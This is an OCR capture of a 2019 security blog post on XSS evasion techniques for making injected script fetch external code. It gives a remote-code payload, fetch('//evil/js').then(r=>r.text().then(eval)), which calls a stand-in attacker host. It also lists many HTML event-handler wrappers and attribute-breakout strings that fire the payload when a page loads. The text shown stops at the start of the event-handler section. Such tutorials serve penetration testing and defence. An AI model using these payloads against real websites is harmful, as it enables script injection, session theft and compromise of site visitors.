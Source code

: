 ##
#
https://aayla-secura.github.io/xss-fetch-evasion
#
##

XSS evasion techniques to fetch an external resource
 Feb 23, 2019
So you popped that sweet alert(1) and now want to do something that’s actually useful, but the input is being truncated to 15 characters? Or maybe your input is being capitalized? Let’s look at some ways to go around it.

The payload
In this post I’ll only look at fetching an external resource, rather than doing anything fancy within the inline XSS. Obviously this won’t always work if the target is behind an egress firewall.

For example purposes the malicious JavaScript is at //evil/js. The payload, in a nutshell is:

fetch('//evil/js').then(r=>r.text().then(eval))
Table of Contents
Encodings marked with :four_leaf_clover: can be easily customized for arbitrary payloads using either the fetch_helpers.py script in the Appendix, or by trivial editting.

First things first
Event handlers
Dealing with limited space
Usecase: character limit is >= 20 (not including wrapping)
Usecase: character limit is >= 13 (not including wrapping)
:four_leaf_clover:Usecase: character limit is >= 10
How to modify it
Dealing with capitalization
:four_leaf_clover:Usecase: payload is being capitalized, character limit >= 131 (not including wrapping and length of external resource URL)
Explanation
:four_leaf_clover:Usecase: payload is being capitalized, character limit > ~342 (not including wrapping, may vary depending on external resource URL)
Explanation (with comments)
How to modify it
Usecase: payload is being capitalized, character limit >= 10
Appendix: Helper script
References and further reading
First things first
Some of the payloads described below are already wrapped in HTML which puts the payload in JavaScript context, but you can of course change the HTML element used. Other payloads need wrapping, as indicated for each. Possible ways to execute a payload are:

If injection ends up outside of an HTML tag:
<script>payload</script>
<svg/onload="payload"/>
<img/onerror="payload"/src=x>
<style/onload="payload"></style>
<input/onfocus="payload"/autofocus>
<marquee/onstart="payload"></marquee>
<div/onwheel="payload"/style="height:200%;width:100%"></div>
<div/onmouseover="payload"/style="height:100%;width:100%"></div>
… many more, see below table for event attributes and supported tags
If injection ends up inside an HTML tag’s attribute:
" event="payload
' event='payload (replace single quotes in payload with double quotes)
Event handlers
Possible events and the supported HTML tags are:
